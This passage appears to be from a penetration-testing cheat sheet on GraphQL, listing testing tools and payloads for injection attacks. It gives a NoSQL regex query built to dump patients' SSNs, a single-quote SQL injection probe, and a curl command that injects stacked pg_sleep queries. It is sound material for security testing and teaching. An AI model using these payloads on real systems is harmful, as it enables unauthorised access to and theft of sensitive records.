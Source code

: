 





## Injections
SQL and NoSQL Injections are still possible since GraphQL is just a layer between the client and the database.
Use `$regex`, `$ne` from inside a `search` parameter.

### NOSQL injection
```graphql
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```
### SQL injection
Send a single quote ' inside a graphql parameter to trigger the SQL injection
```html
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```
Simple SQL injection inside a graphql field.
```bash
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

## Tools
* [GraphQL Voyager](https://apis.guru/graphql-voyager/) - Schema/object exploration

### Vulnerability
* https://github.com/gsmith257-cyber/GraphCrawler: Toolkit that can be used to grab schemas and search for sensitive data, test authorization, brute force schemas, and find paths to a given type.
* https://blog.doyensec.com/2020/03/26/graphql-scanner.html: Can be used as standalone or Burp extension.
* https://github.com/swisskyrepo/GraphQLmap: Can be used as a CLI client also to automate attacks.
* https://gitlab.com/dee-see/graphql-path-enum: Tool that lists the different ways of reaching a given type in a GraphQL schema.
* https://github.com/doyensec/inql: Burp extension for advanced GraphQL testing. The Scanner is the core of InQL v5.0, where you can analyze a GraphQL endpoint or a local introspection schema file. It auto-generates all possible queries and mutations, organizing them into a structured view for your analysis. The Attacker component lets you run batch GraphQL attacks, which can be useful for circumventing poorly implemented rate limits.
